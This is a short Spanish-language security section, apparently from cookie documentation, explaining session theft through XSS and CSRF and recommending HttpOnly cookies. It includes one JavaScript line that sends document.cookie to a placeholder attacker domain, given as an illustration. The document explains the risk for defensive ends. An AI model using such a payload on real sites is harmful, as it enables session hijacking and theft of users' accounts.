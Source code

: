 # Seguridad

#### Robos de sesiones y XSS

Las cookies son frecuentemente usadas para identificar a usuarios y sus sesiones autenticadas. Por lo que robar una cookie podría significar robar la sesión de un usuario. Una forma comun de robar cookies es aprovechando la vulnerabilidad XSS de la aplicación.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

Los **cookies HttpOnly** pueden ayudar a mitigar este ataque ya que impiden el acceso al valor de las cookies mediante código Javascript.

#### Cross-site qurest forgery (CSRF)

O falsificación de petición en sitios cruzados. Este ataque fuerza al navegador web de su víctima, validado en algún servicio a enviar una petición a una aplicación web vulnerable.

* [Evercookie by Samy Kamkar](https://github.com/samyk/evercookie)
* [Zombie cookies on Wikipedia](https://en.wikipedia.org/wiki/Zombie_cookie)
